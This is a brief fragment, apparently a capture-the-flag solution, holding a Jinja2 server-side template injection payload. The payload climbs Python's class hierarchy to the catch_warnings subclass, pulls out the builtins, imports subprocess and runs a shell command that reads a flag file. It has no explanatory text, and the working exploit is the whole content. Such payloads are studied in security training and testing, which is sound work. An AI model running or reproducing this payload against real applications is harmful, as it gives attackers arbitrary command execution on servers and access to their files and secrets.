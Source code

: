 ` {% set ss = ''.__class__.__mro__[1].__subclasses__() %} `
` {% for sc in ss %} `
` {% if sc.__name__ == 'catch_warnings' %} `
` {% set que = sc()._module.__builtins__ %} `
` {% set os = que['__import__']('subprocess') %}`
` {{ os.check_output('cat app/flag', shell=True) }}`
` {% endif %} `
` {% endfor %} `